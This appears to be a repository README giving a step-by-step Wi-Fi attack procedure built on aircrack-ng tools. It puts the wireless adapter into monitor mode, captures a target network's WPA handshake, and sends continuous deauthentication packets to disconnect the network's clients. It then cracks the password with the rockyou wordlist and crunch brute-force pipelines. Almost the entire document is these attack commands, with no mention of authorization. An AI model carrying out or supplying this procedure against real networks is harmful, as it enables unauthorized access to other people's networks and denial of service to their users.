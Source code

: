 ### Prerequisites

1. **Update the System:**
   ```bash
   sudo apt update
   ```

2. **Install Aircrack-ng:**
   ```bash
   sudo apt install aircrack-ng
   ```
   Verify the installation:
   ```bash
   aircrack-ng --help
   ```

3. **Install Crunch:**
   ```bash
   sudo apt install crunch
   ```
   Verify the installation:
   ```bash
   crunch -h
   ```

4. **Wireless Adapter:**
   Ensure you have a wireless adapter capable of performing packet injection and entering monitor mode.

### A. Start General Info

1. **Switch to Super User:**
   ```bash
   sudo su
   ```

2. **Check Network Interfaces:**
   ```bash
   iwconfig
   ```
   Ensure the network interface is in `Mode:managed`.

3. **Check Running Processes:**
   ```bash
   airmon-ng check
   ```

4. **Kill Interfering Processes:**
   ```bash
   airmon-ng check kill
   ```

### B. Change Manager Mode to Monitor Mode

1. **Start Monitor Mode:**
   ```bash
   airmon-ng start wlan0
   ```
   Replace `wlan0` with your actual network interface name if different.

### C. Gather Basic Info

1. **Scan for Networks:**
   ```bash
   airodump-ng wlan0
   ```
   Stop the process after 10-15 seconds and note down the `BSSID`, `CH (channel)`, and `ESSID`.

### D. Dump the Capture File

1. **Create Directory Structure:**
   ```
   -|New_Folder
      |- Captured_Files
      |- rockyou
   ```

2. **Capture Handshake:**
   ```bash
   sudo su
   airodump-ng wlan0 -d <bssid>
   ```
   Wait until you see `Handshake: bssid` at the top.

3. **De-authenticate Clients:**
   ```bash
   aireplay-ng --deauth 0 -a <bssid> wlan0
   ```
   Close the execution after 20 seconds.

4. **Capture Files:**
   ```bash
   airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
   ```
   Close after 20 seconds.

5. **Re-run De-auth and Capture:**
   Repeat the de-auth and capture process to ensure you have the handshake.

6. **Check Captured Files:**
   ```bash
   ls
   ```
   You should see files in `Captured_Files` folder with extensions `.csv`, `.netxml`, and `.cap`.

### E. Dictionary Attack (Method One)

1. **Download Rockyou Wordlist:**
   Download the `rockyou.txt` file from the internet and extract it into the `rockyou` folder.

2. **Use Built-in Rockyou (Optional):**
   ```bash
   gunzip -c /usr/share/wordlists/rockyou.txt.gz > ~/Desktop/New_Folder/rockyou/rockyou.txt
   ```

3. **Change Permissions:**
   ```bash
   chmod 777 ~/Desktop/New_Folder/rockyou/rockyou.txt
   ```

4. **Crack the Password:**
   ```bash
   aircrack-ng file_name.cap -w /Desktop/New_Folder/rockyou/rockyou.txt
   ```
   Wait for the process to complete.

### F. Brute Force Attack (Method Two)

1. **Number Only:**
   ```bash
   crunch 4 4 0123456789 | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

2. **Character Set:**
   ```bash
   crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

3. **Complex Character Set:**
   ```bash
   crunch 12 12 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+=-[]{}|;:'",.<>?/ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

### Post-Process

1. **Stop Monitor Mode:**
   ```bash
   airmon-ng stop wlan0
   ```